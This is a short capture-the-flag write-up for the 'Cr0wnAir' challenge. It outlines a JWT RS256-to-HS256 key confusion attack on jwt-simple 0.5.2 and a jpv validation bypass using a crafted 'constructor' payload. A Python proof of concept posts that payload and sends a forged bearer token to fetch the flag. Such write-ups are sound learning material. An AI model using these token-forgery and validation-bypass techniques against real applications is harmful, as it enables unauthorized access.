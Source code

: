 # Cr0wnAir

* jwt key confusion attacks
* jpv validate bypass
* abusing public key without publickey 

## walkthrough


Obviously there is a RS256-HS256 key confusion attack for `"jwt-simple": "0.5.2"`
Then there is an issue on github [https://github.com/manvel-khnkoyan/jpv/issues/6](https://github.com/manvel-khnkoyan/jpv/issues/6)
so that we can bypass json validation on `sssr`
Lastly, all we need is the publikey. Which can be abused according to [https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/](https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/)

## poc

```python
import requests

url = 'http://34.105.202.19:3000/'

def getkey():
    """
    we need to get two tokens to retrieve publickey
    """
    r = requests.post(url + 'checkin', json={
        'firstName': 'byc',
        'lastName': '404',
        'passport': '423456789',
        'ffp': 'CA12345676',
        'extras': {"a": {"sssr": "FQTU"}, 'constructor': {'name': 'Array'}}
    })
    print(r.json()['token'])

r = requests.post(url + 'upgrades/flag', headers = {
    'Authorization':'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdGF0dXMiOiAiZ29sZCIsICJmZnAiOiAiQ0ExMjM0NTY3OCJ9.yncoTDoKFPcSA90PBqPayLUnDhoBEIQay4A6p0tD8z8'
})
print(r.json())
```

flag : `union{I_<3_JS0N_4nD_th1ngs_wr4pp3d_in_JS0N}`